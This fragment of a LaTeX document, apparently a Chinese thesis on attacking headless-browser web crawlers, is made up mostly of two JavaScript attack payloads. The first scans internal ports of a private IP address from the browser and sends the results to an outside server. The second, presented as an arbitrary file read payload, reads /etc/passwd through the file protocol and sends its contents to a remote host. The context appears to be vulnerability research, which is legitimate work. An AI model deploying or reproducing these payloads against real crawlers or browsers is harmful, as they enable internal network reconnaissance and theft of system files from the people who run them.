 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
\lstset{language=JavaScript}
\begin{lstlisting}
var result="";
var newline = String.fromCharCode(10);
function scanPort(target,port,timeout)
{
  var time = Date.now();
	var img=new Image();
	img.onerror=function ()
	{
	   console.log( target + ':' + port + '  ' + (Date.now() - time) + 'ms');
		if (!img) return;
		img=undefined;
		out(target,port,"open");
	}

	img.onload=img.onerror;
	img.src='http://'+target+':'+port;

	setTimeout(function() {
		if (!img) return;
        img = undefined;
		out(target,port,"close");
		},timeout);
}

function scanTarget(target,port,timeout)
{
	for(i=0;i<port.length;i++)
		scanPort(target,port[i],timeout);
}

var out=function(target,port,status) {
	result+=target+':'+port+'  '+status+newline;
	console.log(target+':'+port+'  '+status+newline);
}

var scan=function(target,port,timeout)
{
	scanTarget(target, port.split(','), timeout);
}

scan("192.168.244.154","80,443,445,1521,2222,3306,3389,5901,6379,\
7001,8000,8001,8005,8080,8888,22222",1000);
setTimeout(function() {window.location.href="http://8.90.144.214/1.php?b="+result;},2000);

\end{lstlisting}

\subsection{任意文件读取攻击载荷}

该攻击载荷一旦成功执行，可以在爬虫所在的宿主机上读取任意文件并发送到远程服务器。但是因为该攻击载荷使用了cross origin request的技巧，因此要求爬虫在本地文件系统上渲染该文件，且无头浏览器安全策略不限制file协议的使用。

\lstset{language=JavaScript}
\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
	    window.location.href="http://7.9.5.4/index.php?msg=" + xhr.responseText;
    }
}
xhr.open('GET', 'file:///etc/passwd', true);
xhr.send(null);
\end{lstlisting}



\section{漏洞挖掘与分析}
\end{document}
